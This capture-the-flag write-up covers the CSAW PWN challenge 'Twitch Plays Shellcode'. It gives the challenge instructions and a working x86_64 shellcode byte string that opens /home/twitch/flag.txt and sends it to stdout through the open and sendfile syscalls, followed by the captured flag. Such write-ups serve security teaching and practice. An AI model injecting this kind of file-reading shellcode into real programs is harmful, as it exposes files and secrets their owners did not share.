

# Twitch Plays Shellcode

- Category: PWN
- Points: 100

## Challenge

### Description
> Flag is in /home/twitch/flag.txt We'll jump into your shellcode and output 1024 bytes of stdout twitch.tv/csawtv

### Twitch.tv

On Twitch we have more instructions

> Flag is in /home/twitch/flag.txt
> After the number of rounds you vote for, we'll output the next 1024 bytes of stdout to the screen. This is x86_64 bit shellcode.

> ALL VOTES MUST BE NUMERIC
> VOTE FOR THE ROW, THE COLUMN, and then the VALUE on your page you want to change

## Solution

With all the information in mind first we need to come up with some shellcode to input. Thanks to zero_fiber for leading the charge in the chat. We used: 
> > 48 b8 01 01 01 01 01 01 01 01 50 48 b8 66 2f 75 79 75 01 01 01 48 31 04 24 eb 31 69 74 63 68 2f 66 6c 61 50 48 b8 2f 68 6f 6d 65 2f 74 77 50 6a 02 58 48 89 e7 31 f6 99 0f 05 41 ba ff ff ff ff 7f 48 89 c6 6a 28 58 6a 01 5f 99 0f 05 48 b8 69 74 63 68 2f 66 6c 61 eb cb 

Which translates to
> > Put /home/twitch/flag.txt On the stack
> > Open the File (syscall 2)
> > Send the File (syscall 40)

Then on the next execution we get the flag

### Flag

`flag{https://www.youtube.com/watch?v=pGFGD5pj03M}`
